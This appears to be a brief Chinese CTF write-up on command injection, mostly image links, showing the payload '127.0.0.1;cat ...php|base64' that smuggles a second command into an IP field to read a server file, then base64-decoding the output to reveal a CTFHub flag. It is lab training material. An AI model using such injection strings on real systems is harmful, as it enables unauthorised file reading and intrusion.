 

![1687104159471](image/命令注入/1687104159471.png)



![1687097787407](image/命令注入/1687097787407.png)

```sql
127.0.0.1;cat 206242903419220.php|base64  
//使用base64加密显示
```

![1687097989447](image/命令注入/1687097989447.png)

```sql
使用base64在线转换软件
```

![1687098133557](image/命令注入/1687098133557.png)

```sql
再使用base64解码，得出flag：ctfhub{cfd1ae7f2882ebd06d41229d}
```

![1687098167194](image/命令注入/1687098167194.png)
